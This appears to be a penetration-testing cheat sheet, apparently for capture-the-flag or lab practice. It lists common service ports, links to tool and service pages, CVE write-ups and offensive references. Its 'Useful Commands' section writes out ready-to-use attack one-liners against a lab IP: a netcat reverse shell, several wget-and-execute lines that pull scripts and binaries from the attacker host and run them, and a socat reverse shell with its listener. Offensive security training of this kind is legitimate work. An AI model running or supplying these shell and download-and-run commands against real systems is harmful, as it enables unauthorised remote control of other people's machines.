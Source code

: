 # CheatSheet

## Ports
| Service | Port      |
|:-------:|:---------:|
| FTP     | 20 / 21   |
| SSH     | 22        |
| Telnet  | 23        |
| SMTP    | 25        |
| DNS     | 53        |
| HTTP    | 80        |
| POP3    | 110       |
| HTTPS   | 443       |
| SMB     | 139 / 445 |
| NFS     | 2049      |
| MySQL   | 3306      |

## Tools
- [Rustscan](tool/rustscan.md)
- [Nmap](tool/nmap.md)
- [MSFVenom](tool/msfvenom.md)
- [Gobuster](tool/gobuster.md)
- [Hydra](tool/hydra.md)
- [John the Ripper](tool/john.md)
- [Hashcat](tool/hashcat.md)

## Workflow by service
- [SSH](service/ssh.md)
- [SMB](service/smb.md)
- [Telnet](service/telnet.md)
- [NFS](service/nfs.md)
- [FTP](service/ftp.md)
- [SMTP](service/smtp.md)
- [MySQL](service/mysql.md)

## Useful Commands
### Shell payload
```
echo "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.4.49.251 4444 >/tmp/f" > shell.sh
```

### Download local file
```
FILE=[FILE NAME]; wget http://10.4.49.251/$FILE -O /tmp/$FILE; chmod +x /tmp/$FILE; sh /tmp/$FILE
```

### LinEnum
```
wget http://10.4.49.251/LinEnum.sh -O /tmp/LinEnum.sh; chmod +x /tmp/LinEnum.sh; /tmp/LinEnum.sh
```

### Socat
#### Target
```
wget http://10.4.49.251/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.4.49.251:4445
```

#### Attacker (Kali)
```
socat file:`tty`,raw,echo=0 TCP-L:4445
```

#### To upgrade more
```
export SHELL=bash; export TERM=xterm-256color; stty rows 60 columns 126
```

## CVEs
- CVE : 2014-6287 ([39161](cve/cve-2014-6287-39161.md))
- CVE : 2014-6287 ([49125](cve/cve-2014-6287-49125.md))


## Reference

Exploit DB  
https://www.exploit-db.com/

MSF Console Commands  
https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/

Meterpreter Commands  
https://www.offensive-security.com/metasploit-unleashed/meterpreter-basics/

GTFOBins  
https://gtfobins.github.io/

PayloadsAllTheThings / Reverse Shell Cheat Sheet
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

PayloadsAllTheThings / Linux - Privilege Escalation
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#find-suid-binaries

CrackStation  
https://crackstation.net/

Hash Analyzer  
https://www.tunnelsup.com/hash-analyzer/

CyberChef  
https://gchq.github.io/CyberChef/

Upgrading Simple Shells to Fully Interactive TTYs  
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
